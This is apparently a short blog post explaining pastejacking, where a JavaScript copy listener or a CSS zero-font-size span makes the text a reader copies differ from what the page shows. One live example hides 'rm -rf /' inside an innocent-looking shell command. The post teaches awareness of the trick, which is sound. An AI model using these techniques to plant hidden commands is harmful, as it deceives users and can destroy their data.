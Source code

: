 ```yaml
---

layout: post
title:  "On Ctrl-C Ctrl-V"
date:   2021-06-01 11:30:00
categories: Hacking 
---
```


Javascript is extremely powerful, to say the least. One of its often overlooked features is the `copy` event listener.

What damage can that do? Here, copy this 'innocent' command (*meant to be pasted into a shell*) and paste it somewhere.

<p id='fakecopy'><code>$ echo "innocent text"</code></p>

<script>
 document.getElementById('fakecopy').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain',
        'echo "This could\'ve be something malicious!😈"\n');
    e.preventDefault();
});
</script>

The text you just copied even has an `Enter` character, so the command will execute automatically if pasted in a shell, and **I will have control over this system before you can even comprehend what just went down**.

This is how the code works,

```javascript
document.getElementById('fakecopy').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain',
        'echo "This could\'ve be something malicious!😈"\n');
    e.preventDefault();
});
```

Think you'll be safe if by disabling Javascript? Sorry to burst your bubble but this can also be done with raw CSS.

<p id='fakecopy'> <code>$ echo <span style="font-size: 0;">; rm -rf / ; echo </span>"looks safe to me!"</code></p>

This is how that works,

```css
$ echo <span style="font-size: 0">; echo 'malicious command' ; echo </span>"looks safe to me!"
```
